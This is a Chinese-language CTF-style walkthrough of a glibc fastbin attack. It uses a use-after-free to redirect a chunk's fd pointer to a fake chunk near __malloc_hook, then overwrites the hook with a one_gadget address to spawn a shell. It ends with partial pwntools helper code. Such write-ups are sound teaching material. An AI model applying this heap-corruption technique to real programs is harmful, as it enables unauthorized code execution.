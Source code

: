 ![[Pasted image 20240923214358.png]]

然后就是通过uaf修改上个chunk的fd指针为这个fake_fast_chunk的地址。

然后将这个chunk给申请出来，然后再申请一个chunk,这个chunk就是fake_fast_chunk，然后就修改fake_fast_chunk的fd指针为one_gadget(后门)，然后再申请一个chunk，这个chunk就是后门函数。

然后就会直接出发system了。

现在我调试一下把fd改成fake_fast_chunk地址的过程，我们可以看到下面的第一张图中的free chunk fastbins的fd是0x0

![[Pasted image 20240923214411.png]]

我把fake的地址打印出来如下图所示

![[Pasted image 20240923214420.png]]

下面是将fd改成fake_fast_chunk的效果

![[Pasted image 20240923214429.png]]

下面是将fake fast chunk的fd改成one_gadget的地址:

第一张图malloc hook的fd地址是空的

![[Pasted image 20240923214437.png]]

下图是one_gadget地址

![[Pasted image 20240923214444.png]]

我们将one_gadget的地址写入了fd.

在这里我要说明一下，在写后门的时候，我们要注意空间地址的对齐，如果不对其就会导致写进malloc_hook的后门地址不对，这里我写进去填充是十三个字节。

![[Pasted image 20240923214456.png]]
![[Pasted image 20240923214506.png]]
__malloc_hook全局变量：

函数介绍：_lib_malloc首先通过__malloc_hook全局变量获取一个函数指针，然后判断这个函数是否为空，这个函数代表用户自定义的堆分配函数，主要为了方便用户快速修改该函数并进行测试

_malloc_hook漏洞：如果__malloc_hook被修改，那么就会执行被修改后的函数（one_gadget）

从下面的源码可以看到，先读取__malloc_hook全局变量，然后判断是否有用户自定义的堆分配函数，如果有就执行，不再进行系统的堆分配了(_int_malloc)

![[Pasted image 20240923214522.png]]

```
from pwn import *
p = process('./heap')
libc = ELF('./libc.so.6')
def add(idx,size):
    p.recvuntil('>>')
    p.sendline(b'1')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))
    p.recvuntil('size? ')
    p.sendline(str(size))

def delete(idx):
    p.recvuntil('>>')
    p.sendline(b'2')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def show(idx):
    p.recvuntil('>>')
    p.sendline(b'3')
```